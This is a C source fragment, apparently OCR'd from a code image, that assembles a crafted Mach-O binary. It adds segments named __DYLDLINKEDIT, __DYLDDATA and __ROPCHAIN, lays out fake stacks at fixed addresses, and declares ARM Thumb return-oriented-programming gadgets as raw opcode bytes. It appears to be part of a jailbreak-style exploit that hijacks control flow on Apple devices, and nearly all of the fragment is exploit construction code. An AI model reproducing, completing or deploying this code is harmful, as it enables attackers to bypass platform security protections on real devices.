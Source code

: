     code_data = (char*)(buf + fsz);
    memcpy(code_data, g_data_ptr, g_data_size);
    
    fsz += load_cmd_seg.filesize;
    
    load_cmd_seg.vmaddr = 0x50000000 + p + g_data_vmsize;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = (uint32_t)g_lnk_size;
    load_cmd_seg.vmsize = (uint32_t)g_lnk_size;
    strcpy(&load_cmd_seg.segname[0], "__DYLDLINKEDIT");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    
    code_data = (char*)(buf + fsz);
    memcpy(code_data, g_lnk_ptr, g_lnk_size);
    
    fsz += load_cmd_seg.filesize;
    
    
    load_cmd_seg.vmaddr = 0x50000000 + p;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = (uint32_t)g_data_size;
    load_cmd_seg.vmsize = (uint32_t)g_data_vmsize;
    strcpy(&load_cmd_seg.segname[0], "__DYLDDATA");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    
    code_data = (char*)(buf + fsz);
    memcpy(code_data, r_data_ptr, g_data_size);
    
    fsz += load_cmd_seg.filesize;
    
    __unused char *data = (char*)(buf + fsz);
    __unused char *dptr = (char*)(0x5A000000);
    
    
    load_cmd_seg.vmaddr = 0x51000000;
    load_cmd_seg.fileoff = fsz;
    load_cmd_seg.filesize = 0x500000;
    load_cmd_seg.vmsize = 0x500000;
    strcpy(&load_cmd_seg.segname[0], "__ROPCHAIN");
    memcpy(buf + mh.sizeofcmds + sizeof(mh), &load_cmd_seg, load_cmd_seg.cmdsize);
    mh.sizeofcmds += load_cmd_seg.cmdsize;
    mh.ncmds++;
    uint32_t *stack = (uint32*)(buf + fsz + 0x4000);
    uint32_t *stackz = (uint32*)(buf + fsz + 0x100000 + 0x4000);
    uint32_t *stacky = (uint32*)(buf + fsz + 0x90000 + 0x4000);
    
    uint32_t *stackbase = stack;
    uint32_t segstackbase = load_cmd_seg.vmaddr + 0x4000;
    uint32_t segstackzbase = load_cmd_seg.vmaddr + 0x100000 + 0x4000;
    uint32_t segstackybase = load_cmd_seg.vmaddr + 0x90000 + 0x4000;
    
    
    DeclGadget(mov_sp_r4_pop_r4r7pc, (&(char[]){0xa5,0x46,0x90,0xbd}), 4);
    DeclGadget(mov_r0_r4_pop_r4r7pc, (&(char[]){0x20,0x46,0x90,0xbd}), 4);
    DeclGadget(add_r0_r2_pop_r4r5r7pc, (&(char[]){0x10,0x44,0xb0,0xbd}), 4);
    DeclGadget(pop_r4r5r6r7pc, (&(char[]){0xf0,0xbd}), 2);
    DeclGadget(pop_r2pc, (&(char[]){0x04,0xbd}), 2);
    DeclGadget(pop_r4r7pc, (&(char[]){0x90,0xbd}), 2);
    DeclGadget(pop_r7pc, (&(char[]){0x80,0xbd}), 2);
    DeclGadget(bx_lr, (&(char[]){0x70,0x47}), 2);
    DeclGadget(not_r0_pop_r4r7pc, (&(char[]){0x01,0x46,0x00,0x20,0x00,0x29,0x08,0xbf,0x01,0x20,0x90,0xbd}), 12);
    DeclGadget(muls_r0r2r0_ldr_r2r4_str_r248_pop_r4r5r7pc, (&(char[]){0x50,0x43,0x22,0x68,0xC2,0xE9,0x0C,0x01,0xB0,0xBD}), 10);
    DeclGadget(lsrs_r0_2_popr4r5r7pc, (&(char[]){0x4F,0xEA,0x90,0x00,0xB0,0xBD}), 6);
    
